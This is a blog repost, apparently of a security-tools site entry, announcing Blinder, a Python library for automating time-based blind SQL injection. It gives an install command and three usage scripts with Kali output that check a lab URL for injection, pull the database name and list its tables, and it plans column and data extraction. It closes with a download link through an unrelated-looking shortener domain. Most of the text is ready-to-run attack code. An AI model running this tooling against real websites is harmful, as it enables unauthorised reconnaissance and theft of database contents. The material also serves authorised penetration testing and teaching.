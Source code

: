 ```yaml
---
title: 'Blinder'
date: 2020-02-07T22:24:00+01:00
draft: false
---
```


**Kang Asu**

[![](https://1.bp.blogspot.com/-PnCl3vZyebM/Xi5Nkkt2BHI/AAAAAAAARhE/wFIHMjvCnRYFtWGGQPMgG3eApsIngxKxQCNcBGAsYHQ/s1600/timesql.jpg)](https://1.bp.blogspot.com/-PnCl3vZyebM/Xi5Nkkt2BHI/AAAAAAAARhE/wFIHMjvCnRYFtWGGQPMgG3eApsIngxKxQCNcBGAsYHQ/s1600/timesql.jpg)

**Blinder - A Python Library To Automate Time-Based Blind SQL Injection**

  

  
Blidner is a small python library to automate time-based blind SQL [injection](https://www.kitploit.com/search/label/Injection "injection") by using a pre defined queries as a functions to automate a rapid PoC development.

  
**Installation**  
You can install Blinder using the following command:  
`pip install blinder`  
Or by downloading the source and importing it manually to your project.  
  
**Usage**  
To use blinder you need to import `Blinder` module then start using the main functions of Blinder.  
You can use Blinder "with the current version" to do the following:

*   Check for time based injection.
*   Get database name.
*   Get tables names.

**You can check for injection in a URL using the following code:**

```
#!/usr/bin/python  
  
import Blinder  
  
blind = Blinder.blinder(  
    "[http://sqli-lab/sql_injection/index.php?search=3](http://sqli-lab/sql_injection/index.php?search=3)",  
    sleep=1  
 )  
  
print blind.check_injection()  

```

The execution result will be:

```
root@kali:~/Desktop# python check.py  
True  
root@kali:~/Desktop#
```

**You can Get database name using the following code:**

```
#!/usr/bin/python  
  
import Blinder  
  
blind = Blinder.blinder(  
    "[http://sqli-lab/sql_injection/index.php?search=3](http://sqli-lab/sql_injection/index.php?search=3)",  
    sleep=1  
 )  
  
print "Database name is : %s " % blind.get_database()  

```

And the results will be:

```
root@kali:~/Desktop# python get-database.py  
Database name is : db1  
root@kali:~/Desktop#
```

**To get tables names you can use the following code:**

```
#!/usr/bin/python  
  
import Blinder  
  
blind = Blinder.blinder(  
    "[http://sqli-lab/sql_injection/index.php?search=3](http://sqli-lab/sql_injection/index.php?search=3)",  
    sleep=1  
 )  
  
tables = blind.get_tables()  
  
for table in tables:  
    print table  

```

And the results will be:

```
root@kali:~/Desktop# python get-tables.py  
blogs  
notes  
root@kali:~/Desktop#
```

  
**TODO**  
A lot of features should be added soon like:

*   the ability of adding customized query
*   test injection points based on [burp](https://www.kitploit.com/search/label/Burp "burp") request
*   extract tables/columns data

  

**[Download Blinder](http://homoluath.com/3X4H "Download Blinder")**

**Regards**

**Kang Asu**